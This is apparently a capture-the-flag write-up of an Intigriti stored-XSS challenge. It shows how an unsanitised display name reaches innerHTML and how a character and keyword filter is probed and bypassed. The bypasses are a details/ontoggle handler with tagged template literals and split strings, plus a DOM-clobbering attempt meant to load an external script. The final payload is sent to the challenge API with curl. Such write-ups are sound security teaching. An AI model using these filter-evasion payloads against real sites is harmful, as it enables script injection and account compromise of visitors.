




# Intigriti Challenge 0526 write-up - The Greatest XSS Arcade Hit

**Author:** zzzquil  
**Challenge:** Intigriti Challenge 0526 - Pixel Pioneers Arcade  
**Category:** XSS  
**Difficulty:** Medium/High  
**Status:** ✅ Solved  

---

## Introduction

This is the story of how I spent an afternoon arguing with a security filter called "SCA Shield" (which sounds like something out of an 80s sci-fi movie) and how I eventually convinced it to let me do what I wanted.

Spoiler: the final solution is elegant. The path to get there was... less so.

---

## The Target

Pixel Pioneers is a SPA (Single Page Application) with a retro arcade theme. Users can:
- Register and log in
- Set a display name on their profile
- Post public testimonials
- View the testimonials feed

The goal: execute arbitrary JavaScript in the browser of anyone visiting the page.



---

## Step 1 - Reading the Code (The Boring but Essential Part)

Before firing payloads blindly, I read the JavaScript source. It's a best practice I remember to follow. Sometimes.

The first thing that stands out is this, inside `loadTestimonials()`:

```javascript
let nameDiv = document.createElement('div');
nameDiv.innerHTML = t.user_name;  // NO SANITIZATION

let textDiv = document.createElement('div');
textDiv.innerHTML = DOMPurify.sanitize(t.content);  // SANITIZED
```

Two lines, side by side. One protected, one not. The testimonial content is safe thanks to DOMPurify. The `user_name` is injected directly into HTML with zero client-side filtering.

**Target identified:** the display name field injected in `nameDiv.innerHTML`

There's also this interesting snippet, seemingly harmless:

```javascript
let config = window.PixelAnalyticsConfig || { enabled: false, scriptUrl: '/js/mock-tracker.js' };
if (config.enabled) {
    let s = document.createElement('script');
    s.src = config.scriptUrl;
    document.body.appendChild(s);
}
```

An analytics system that loads external scripts if enabled. Filing that away for later.



---

## Step 2 - The Classic Beginner Attempt

```html
<script>alert(1);</script>
```

Doesn't work. Never does. When you inject HTML via `innerHTML`, `<script>` tags don't execute. It's a DOM security behavior that's been around since Internet Explorer was considered a real browser.

No shame. Everyone tries it at least once.

---

## Step 3 - The Reasonable Attempt

```html

```

This is the classic XSS payload via innerHTML. When the image fails to load, `onerror` fires and executes `alert(1)`.

Server response:

```json
{
  "error": "SCA Shield: Malicious characters detected! Quotes, parenthesis, dots, commas, and semicolons are strictly forbidden."
}
```

Okay. There's a filter. Called SCA Shield. Blocks: `'` `"` `(` `)` `.` `,` `;`

Without parentheses I can't call `alert(1)`. Houston, we have a problem.



---

## Step 4 - The "Clever" HTML Entities Attempt

First idea: use `&#40;` for `(` and `&#41;` for `)`.

```html

```

The filter checks raw characters, so `&#40;` doesn't contain `(` literally. The browser decodes the entities and executes `alert(1)`.

Brilliant, right?

No. `&#40;` contains `;` which is on the blocked list.

Every numeric HTML entity ends with `;`. Every. Single. One.

The filter predicted this. Respect.

---

## Step 5 - JSON Unicode Escapes (Another Clever Attempt)

In JSON, I can write `\u0028` to represent `(` without using the literal character.

```bash
--data-raw '{"name":""}'
```

Hope: the filter checks raw JSON bytes, sees `\u0028` (no `(`), passes. JSON parser then decodes to `(`.

Reality: the filter runs AFTER JSON parsing. It already sees the decoded `(` and `)`. Blocked.

---

## Step 6 - I Discover There's a SECOND FILTER

I try DOM Clobbering on `PixelAnalyticsConfig`:

```html
<a id=PixelAnalyticsConfig name=enabled href=x>
<a id=PixelAnalyticsConfig name=scriptUrl href=//server/xss>
```

This would have clobbered `window.PixelAnalyticsConfig` and loaded an external script. Elegant.

Response:

```json
{"error": "SCA Shield: Malicious payload signature detected!"}
```

Pause. The error message is *different*. It's not the character filter. It's a **second filter** doing pattern matching on specific strings.

Two filters. Separate. With different error messages.

---

## Step 7 - Identify Blocked Patterns

To figure out what triggers the signature detection, I isolate components by testing progressively smaller pieces of the payload:

| Payload | Result |
|---------|--------|
| `<a id=test href=x>` | ✅ Passes |
| `<a id=PixelAnalyticsConfig>` | ✅ Passes |
| `<a href=//test>` | ✅ Passes |
| `<a name=scriptUrl href=x>` | ❌ BLOCKED |
| `` | ❌ BLOCKED |
| `<svg onload=x>` | ❌ BLOCKED |
| `<details open ontoggle=x>` | ✅ Passes |
| `alert\`1\`` | ❌ BLOCKED |
| `onerror=x` | ❌ BLOCKED |

**Blocked patterns identified:**
- `onerror`
- `onload`
- `scriptUrl`
- `alert`
- `window`

**Allowed:**
- `<details open ontoggle=...>` ✅
- `self` (window alias) ✅

---

## Step 8 - The Backtick Solution

Two problems to solve:
1. Call a function without `(` and `)`
2. Reference `alert` without writing "alert"

**Problem 1 - Call without parentheses:**

In JavaScript, **tagged template literals** allow calling a function without parentheses:

```javascript
alert`1`
// equivalent to:
alert(['1'])
// shows "1" in the dialog
```

The backtick (`` ` ``) is not on the blocked list. ✅

**Problem 2 - Hiding the word "alert":**

```javascript
self[`ale`+`rt`]
// self = window
// `ale`+`rt` = "alert"
// self["alert"] = the alert function
```

Final payload: `` self[`ale`+`rt`]`1` ``

The string "alert" never appears consecutively in the payload. ✅

---

## Step 9 - Final Payload

**Display name set to:**
```
<details open ontoggle=self[`ale`+`rt`]`1`>
```

**Delivery:**
```bash
# Step 1: Set the payload as display name
curl 'https://challenge-0526.intigriti.io/api/profile' \
  -H 'content-type: application/json' \
  -b 'session=YOUR_SESSION' \
  --data-raw '{"name":"<details open ontoggle=self[`ale`+`rt`]`1`>"}'

# Step 2: Post any testimonial to appear in the feed
curl 'https://challenge-0526.intigriti.io/api/testimonials' \
  -H 'content-type: application/json' \
  -b 'session=YOUR_SESSION' \
  --data-raw '{"content":"hello!"}'

# Step 3: Victim visits the community feed's page
# https://challenge-0526.intigriti.io/challenge#testimonials
# ALERT ! Win.
```



---

## Conclusion

This challenge teaches an important lesson: a WAF with two separate filters is not necessarily more secure than a single well-built one, if it's possible to identify the blocked patterns and find unexpected combinations.

The final solution uses only common ASCII characters, no exotic encoding and it only relies on a legitimate JavaScript feature called "tagged template literals" in a completely unexpected way.

**Total time:** one afternoon  
**Coffees consumed:** too many  
**Times I thought "almost there":** at least 8  

---

*Write-up by zzzquil for Intigriti Challenge 0526 - May 2026*
